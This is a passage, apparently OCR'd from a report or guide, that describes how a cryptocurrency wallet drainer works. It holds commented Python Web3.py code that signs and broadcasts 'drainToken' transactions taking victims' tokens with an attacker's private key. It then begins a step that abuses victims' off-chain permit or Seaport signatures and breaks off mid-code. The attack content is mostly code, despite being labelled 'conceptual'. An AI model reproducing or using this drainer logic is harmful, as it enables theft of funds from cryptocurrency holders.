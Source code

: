         #     #             "gasPrice": w3.eth.gas_price,
        #     #             "nonce": nonce,
        #     #         }
        #     #         # If drainer contract has a function like: drainToken(tokenAddress, victimAddress, amountToDrain)
        #     #         drain_tx = drainer_contract.functions.drainToken(token_address, victim_address, amount_to_drain).build_transaction(tx_params)
        #     #         signed_tx = w3.eth.account.sign_transaction(drain_tx, private_key=ATTACKER_WALLET_PRIVATE_KEY)
        #     #         sent_tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
        #     #         print(f"Drain transaction sent: {sent_tx_hash.hex()} for token {token_address} from {victim_address}")
        #     #         # Monitor this drain_tx for confirmation
        #     #     except Exception as e:
        #     #         print(f"Error sending drain transaction for {token_address} from {victim_address}: {e}")
        ```
*   **Execution Step 3b (Off-Chain Signature): Use signature with `permit` or Seaport contract.**
    *   **Logic:** Called when a valid off-chain signature is received from the frontend.
    *   **Code Concept (Report Implication - Python with Web3.py for Permit):**
        ```python
        # Conceptual: Using a Permit signature to set allowance then drain
        # PERMIT_TOKEN_CONTRACT_ABI = "[...]" # ABI including the permit function
        # def process_permit_signature(victim_address, signature_data, token_address):
        #     # Deconstruct signature_data: owner, spender, value, deadline, v, r, s
        #     # owner = victim_address
        #     # spender = DRAINER_CONTRACT_ADDRESS or ATTACKER_WALLET_ADDRESS